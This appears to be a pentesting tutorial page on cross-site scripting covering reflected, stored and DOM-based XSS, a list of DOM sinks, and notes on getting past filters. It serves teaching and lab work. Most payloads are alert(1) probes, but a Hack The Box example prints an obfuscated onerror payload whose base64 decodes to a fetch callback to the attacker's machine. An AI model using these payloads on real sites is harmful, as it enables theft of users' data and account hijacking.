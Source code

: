 ```yaml
---
description: <script>alert('xss')</script>
---
```


# Cross-Site Scripting

Cross-Site Scripting, or XSS, is a vulnerability that allows attackers to exploit the interactions that **other users** have with an application. It may allow one to impersonate and perform actions as another user, steal information and in some cases, gain RCE.


## XSS

The most common way of testing for XSS is to call the Javascript alert function. For example, the script tags of HTML can be used :`<script>alert(1)</script>`, which produces this window:

<figure><img src="../../.gitbook/assets/image (2545).png" alt=""><figcaption></figcaption></figure>

Browsers and websites allow users to interact with them and perform actions through Javascript. XSS would work via injecting malicious Javascript code to execute on a user's browser.

There are 3 types of XSS:

1. Reflected XSS
2. Stored XSS
3. DOM Based XSS

### Reflected XSS

Reflected XSS is the simplest form of the exploit. This occurs when a malicious script is reflected off a web application and onto the victim's browser. This script is normally activated through a link or action on the website and would be redirected to the next user.

<figure><img src="../../.gitbook/assets/image (3766).png" alt=""><figcaption></figcaption></figure>

An example would be as follows:

* Suppose a website has a function that uses a user-controlled parameter like `http://example.com?search=test`
* This search term causes this to appear on the page:
  * `<p>You searched for: test </p>`
* Using Reflected XSS, one construct a malicious search link that would trigger a pop-up to appear on screen.&#x20;
* Use `http://example.com?search=<script>alert(1)</script>` as the URL. 
* When any other user enters this link, malicious scripts could be executed on their end and the pop-up would show up in their browsers.
* This works because the rendering of HTML would show this:
  * `<p>You searched for: <script>alert(1)</script></p>`
  * The script tags allow for an 'escape' from the paragraph tags, and we can execute Javascript code within the tags.

Reflected XSS attacks still rely on the **victim user to make the request themselves**. The best attackers to trigger this is to send phishing links or putting malicious links all over a website.

The reliance on the user makes the impacts of XSS less severe compared to the other forms of XSS.

### Stored XSS

Stored XSS means that the malicious script is stored on the website itself. Each time a user visits the page that the script is on, it would execute. Stored XSS has much more severe impacts, as it only requires users visit the page with the payload. This can be in the form of a blog post comment, editing the website page to have hidden Javascript, etc.

<figure><img src="../../.gitbook/assets/image (1684).png" alt=""><figcaption></figcaption></figure>

Here's an example of XSS from the HTB machine, Extension:

After enumeration of the website, I found a stored XSS vulnerability in the 'Report Issues' function of the Gitea instance. The victim has been found to visit the Issues tab of the Gitea instance from time to time.

This was the payload found to work: `test<test><img SRC="x" onerror=eval.call${"eval\x28atobZmV0Y2goImh0dHA6Ly8xMC4xMC4xNC41LyIp\x29"}>`

How this payload works is through rendering an **image** tag and having a script execute on an **event** called 'onerror', which means if the image fails to load, it would load the script. The script is calling an **eval** function which has a Base64 encoded command using **fetch** to connect back to the attacker machine on port 80.

When inputted, the victim would view the Issues and be served this payload. This results in the victim's browser making a callback to the attacker machine. On the attacker machine, this is received on a `nc` listener.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption></figcaption></figure>

This confirms that the XSS is working properly. For this machine, the payload can be modified to include information about a hidden directory that only the victim can access:

<figure><img src="../../.gitbook/assets/image (1714).png" alt=""><figcaption></figcaption></figure>

Stored XSS is much more dangerous because it stores the script on the page itself and exploiting every user that visits it. In the above example, XSS was used to steal information about a directory that only the user could visit. In other cases, stuff like authorisation cookies or passwords can be stolen by attackers.

### DOM-Based XSS

DOM XSS arises when Javascript takes some input from a user-controlled source and processes it insecurely.&#x20;

> Document Object Model (DOM) is a programming interface for web pages, defining the structure of a document and how the document is accessed and manipulated. A website can use Javascript to do something, but uses DOM to access the document and the relevant elements. DOM is structured like a hiearchy tree, with a root element and other elements that are children of the root node.
>
> More can be read here:
>
> [https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model/Introduction](https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model/Introduction)

DOM XSS arises when data is passed to something called a **sink**, defined as a function that supports **dynamic code execution.** Malicious Javascript code can be passed to this sink and allow for the execution of Javascript used to hijack other accounts.

Here are some sinks that can be used for DOM XSS:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

These functions **are not limited to only XSS,** but can also be used for other DOM exploits, such as **open redirection,** through exploiting taint flow vulnerabilities.&#x20;

There are methods to test the HTML and Javascript sinks that are within a website that require the use of browser inspector tools, which would involve looking at how data is parsed by the function. First, we would need to identify a potential source (input location) whereby our input is processed via the sink. Then we can test them as follows:

* HTML Sinks
  * Input HTML strings within a potentially vulnerable sink.
  * Check the page source and try to find out string.
  * Attempt to break out of the HTML tags to execute our code.&#x20;
* Javascript execution sinks
  * Use the Javascript Debugger to determine whether and how our input is sent to a sink.
  * Add a break point and follow how the source's value is read, then track the variables to see if they are passed to a sink.
  * Once a vulnerable sink is found, inject malicious payloads.

**Here's an example of exploiting DOM-based XSS:**

Suppose a website uses a dashboard that changes based on the username of the user. The username is encoded **in the URL**, and is **dynamically retrieved** using sinks.

```markup
<html>
<head>
<title>Custom Dashboard </title>
...
</head>
Main Dashboard for
<script>
	var pos=document.URL.indexOf("context=")+8;
	document.write(document.URL.substring(pos,document.URL.length));
</script>
...
</html>
```

The vulnerable sink used is **document.write( )** and the **source** would be a `context` parameter we pass to the website. A malicious script can be embedded in the URL like this: `http://example.com/dashboard.html#context=<script>alert(1)</script>`.

When the link is clicked by a user and their browser starts building the DOM of the page, the malicious context parameter is extracted and the HTML is updated to have our code. The browser then runs this code and calls the alert function.

## Payloads

XSS is a common vulnerability and there are often measures to prevent it's execution. For example, a website could restrict the usage of `events` or `<script>` tags to prevent users from exploiting it. However, there are always ways to bypass this.

In basic cases, websites can allow for `<script>` tags to be used as input and allow for the embedding of HTML directly on the page. However, if the website has a WAF that does not allow this, one can fuzz the tags possible.

Event attributes can be used in conjunction with tags to deliver the payload, such as **onerror**. Again, this can be brute forced. There are many combinations of event events and attributes, and some can bypass the WAFs faced.

> HTML Event attributes allow events to trigger actions on a browser, like starting Javascript whne a user clicks on an element. For example, using the `<img src="x" onerror=alert(1)>` payload would attempt to render an image, which would always result in an error since `x` is not a valid `img src`. This would trigger the alert(1) to happen.

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection" %}
